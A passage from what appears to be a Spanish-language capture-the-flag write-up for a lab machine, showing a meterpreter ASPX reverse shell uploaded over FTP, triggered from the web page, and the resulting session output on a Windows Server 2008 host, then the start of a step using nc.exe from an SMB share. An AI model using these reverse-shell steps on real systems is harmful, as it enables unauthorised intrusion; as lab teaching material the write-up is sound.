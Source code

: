 Vamos a cargar nuestra **Reverse Shell** al **FTP**:
```batch
ftp> binary
200 Type set to I.
ftp> put meterpreterShell.aspx 
local: meterpreterShell.aspx remote: meterpreterShell.aspx
227 Entering Passive Mode (192,168,1,80).
125 Data connection already open; Transfer starting.
100% |*********************************************|  2867       20.25 MiB/s    00:00 ETA
226 Transfer complete.
2867 bytes sent in 00:00 (65.27 KiB/s)
```

Ya solamente entramos en nuestro archivo desde la página web:

<p align="center">
<img src="/assets/images/THL-writeup-cocidoAndaluz/Captura7.png">
</p>

Y ya tendremos nuestra sesión de **meterpreter**:
```bash
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Sending stage (177734 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 192.168.1.80:49187) at 2025-02-03 21:30:19 -0600
.
meterpreter > getuid
Server username: NT AUTHORITY\Servicio de red
meterpreter > sysinfo
Computer        : WIN-JG67MIHZH2X
OS              : Windows Server 2008 (6.0 Build 6001, Service Pack 1).
Architecture    : x86
System Language : es_ES
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

<br>

<h3 id="BinNC2">Ejecutando Binario nc.exe desde Recurso Compartido de SMB para Obtener Sesión</h3>

Como mencione antes, dentro de nuestro Kali, tenemos ya un binario de **netcat** que sirve con **Windows**.

Búscala y cópiala en tu directorio actual de trabajo:
```bash
locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```
